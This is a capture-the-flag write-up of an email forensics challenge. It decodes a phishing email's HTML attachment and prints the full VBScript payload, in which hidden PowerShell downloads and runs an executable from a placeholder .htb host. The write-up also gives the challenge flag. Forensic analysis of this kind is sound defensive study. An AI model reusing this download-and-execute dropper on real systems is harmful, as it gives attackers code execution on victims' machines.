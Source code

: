 ```yaml
---
title: "[Cyber Apoc '24] Urgent"
date: 2024-03-16T19:15:43+08:00
authors:
  - Kairos
tags:
  - Forensics
ctfs:
  - CyberApoc'24
---
```


# [Cyber Apoc '24] Urgent

This was an email forensics challenge where we are given an EML message file and are required to extract the flag from
it. The given file can be found [here](forensics_urgent.zip).

## Description

> In the midst of Cybercity's "Fray," a phishing attack targets its factions, sparking chaos.
> As they decode the email, cyber sleuths race to trace its source, under a tight deadline.
> Their mission: unmask the attacker and restore order to the city.
> In the neon-lit streets, the battle for cyber justice unfolds, determining the factions' destiny.

## Analysis

An EML file is a plaintext file that contains email messages and attachments. That being said, since the file is plaintext, we can simply use any text editor to view its contents. Using VSC's syntax highlighting:

![EML file](eml.png)

Looking at it,  we can see that the email contains two Base64 encoded strings. There is an attachment named `onlineform.html`. If we were to convert both the Base64 strings, we would get the following:

![Base64](string1.png)

This looks like some sort of HTML code snippet, which I assume is simply the first email's content with the email's formatting. There isn't much here :(

![Base64](string2.png)

This looks more interesting - it has some JavaScript code an obfuscated string. The `document.write(unescape())` function in JS is used to dynamically write content to an HTML document, and `unescape()` is a function that decodes URL-encoded characters. For instance, `%20` would be decoded to a space character.

## Getting the Flag

We can simply use a decoder to decode the obfuscated string. I used [CyberChef](https://gchq.github.io/CyberChef/) to decode the string:

```html
<html>
<head>
<title></title>
<body>
<script language="JavaScript" type="text/javascript">
document.write(unescape('<html>
<head>
<title> >_ </title>
<center><h1>404 Not Found</h1></center>
<script language="VBScript">
Sub window_onload
	const impersonation = 3
	Const HIDDEN_WINDOW = 12
	Set Locator = CreateObject("WbemScripting.SWbemLocator")
	Set Service = Locator.ConnectServer()
	Service.Security_.ImpersonationLevel=impersonation
	Set objStartup = Service.Get("Win32_ProcessStartup")
	Set objConfig = objStartup.SpawnInstance_
	Set Process = Service.Get("Win32_Process")
	Error = Process.Create("cmd.exe /c powershell.exe -windowstyle hidden (New-Object System.Net.WebClient).DownloadFile('https://standunited.htb/online/forms/form1.exe','%appdata%\form1.exe');Start-Process '%appdata%\form1.exe';$flag='HTB{4n0th3r_d4y_4n0th3r_ph1shi1ng_4tt3mpT}", null, objConfig, intProcessID)
	window.close()
end sub
</script>
</head>
</html>
'));
</script>
</body>
</html>
```

This code attempts to download an exe file from a remote server and executes it! Pretty interesting. But we also got the flag :)